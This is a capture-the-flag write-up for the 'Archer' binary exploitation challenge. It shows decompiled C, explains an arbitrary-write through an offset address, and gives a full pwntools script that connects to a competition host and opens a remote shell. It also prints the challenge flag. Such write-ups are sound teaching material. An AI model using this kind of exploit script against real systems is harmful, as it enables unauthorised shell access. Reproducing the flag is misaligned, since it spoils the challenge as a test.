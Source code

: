 # Archer

## Challenge

### Disassembly

```c
undefined8 main(void)
{
    int64_t iVar1;
    char *s1;

    sym.imp.puts("It\'s battle day archer! Have you got what it takes?");
    sym.imp.printf("Answer [yes/no]: ");
    sym.imp.fflush(_reloc.stdout);
    sym.imp.fgets(&s1, 5, _reloc.stdin);
    iVar1 = sym.imp.strstr(&s1, 0x40204e);
    if (iVar1 != 0) {
        sym.imp.puts("Battle isn\'t for everyone.");
        sym.imp.exit(0);
    }
    sym.imp.puts("Awesome! Make your shot.");
    sym.makeshot();
    sym.imp.puts("Hope you shot well! This will decide the battle.");
    if (_obj.code == 0x13371337) {
        sym.imp.exit(0);
    }
    sym.imp.puts("WE WON!");
    sym.imp.fflush(_reloc.stdout);
    sym.imp.system("/bin/sh");
    return 0;
}
```

```c
void sym.makeshot(void)
{
    int64_t var_8h;

    sym.imp.puts("Here\'s your arrow!");
    sym.imp.puts("Now, which soldier do you wish to shoot?");
    sym.imp.fflush(_reloc.stdout);
    sym.imp.__isoc99_scanf(0x402109, &var_8h);
    var_8h = var_8h + 0x500000;
    *(undefined8 *)var_8h = 0;
    sym.imp.puts("Shot!");
    return;
}
```

## Solution

The challenge allows us to clear a chosen memory address, however, the address is offset by +0x500000.

If the value at `obj.code` (0x404068) is equal to its initial value (0x13371337), the program exits.
Otherwise, the program spawns a shell.

We can send a negative value such that when the program applies the offset, it lands on our desired target.
This will overwrite the `obj.code` variable, preventing the program from exiting, then giving us a shell.

## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 193.57.159.27 --port 49723 archer
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('archer')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '193.57.159.27'
port = int(args.PORT or 49723)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

io.sendline("yes")
io.sendline(hex(0x00404068 - 0x500000))

io.interactive()
```

## Flag

`rarctf{sw33t_sh0t!_1nt3g3r_0v3rfl0w_r0cks!_170b2820c9}`

